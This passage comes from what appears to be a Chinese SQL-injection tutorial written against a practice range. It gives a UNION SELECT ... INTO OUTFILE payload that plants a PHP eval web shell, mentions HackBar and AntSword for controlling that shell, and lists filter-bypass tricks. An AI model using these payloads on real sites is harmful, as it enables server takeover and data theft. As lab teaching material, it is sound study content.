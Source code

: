 1. 知道网站的绝对路径。可以通过开源程序、报错信息、phpinfo 界面、404 界面等知道
2. MySQL 对目录有写权限
3. 要有 mysql file 权限（即 MySQL 是否可以对系统文件有读写权限）

<br />

执行如下代码：

```sql
' union select 1, "<?php eval($_POST['a']);" into outfile '/var/www/html/inject.php
```

这里 `eval()` 同 Javascript 的 `eval()`，把字符串当做命令执行

`$_POST['a']` 是指获取 HTTP 请求中的 POST 的参数 `a`

![](http://img.wukaipeng.com/2023/1012-085131-image-20231012085131302.png)

我们也可以在靶场后端看到这个文件确实被注入了：

![](http://img.wukaipeng.com/2023/1012-085222-image-20231012085222224.png)

接着使用 HackBar 来请求 POST 并注入参数 `a`：

![](http://img.wukaipeng.com/2023/1012-085943-image-20231012085942942.png)



或者使用蚁剑：

![](http://img.wukaipeng.com/2023/1013-083921-image-20231013083919924.png)

## 注入绕过

### 大小写绕过

利用大小写匹配绕过，最简单的绕过方式

```
z.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4
```

### 替换关键字

正则表达式替换掉关键字

```
z.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4
```

假设只有一次正则全局匹配，那么 `UNIunionON` 中间 `union` 匹配并被删除掉，结果剩下 `UNION`。



### 使用编码

1. URL 编码

2. 十六进制编码
3. Unicode 编码
